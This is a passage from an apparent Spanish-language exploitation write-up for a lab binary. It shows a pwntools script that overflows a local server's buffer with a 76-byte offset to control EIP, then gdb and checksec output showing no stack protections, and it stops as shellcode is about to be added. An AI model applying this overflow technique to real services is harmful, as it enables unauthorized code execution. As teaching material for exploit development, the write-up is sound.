 ```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'

    
    offset = 76

    buf = b"A"*offset
    eip = b"B"*4


    payload = buf + eip


    p = remote(host, port)
    p.sendline(payload)
    p.close()




if __name__ == '__main__':
    exploit()
```

este exploit nos permitirá tomar el control del EIP, ya que al ejecutarlo vemos lo siguiente en el gdb:

```css
EIP  0x42424242 ('BBBB')
```

Ahora, para saber que tenemos que hacer, vamos a revisar las protecciones del binario:

```css
❯ checksec --file=./server
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   51 Symbols	 No	0		4		./server
❯ 
```

como vemos no tiene ninguna, esto significa que podremos ejecutar un shellcode en la pila. Ya sabiendo esto, vamos a actualizar el exploit nuevamente pero agregando el shellcode:
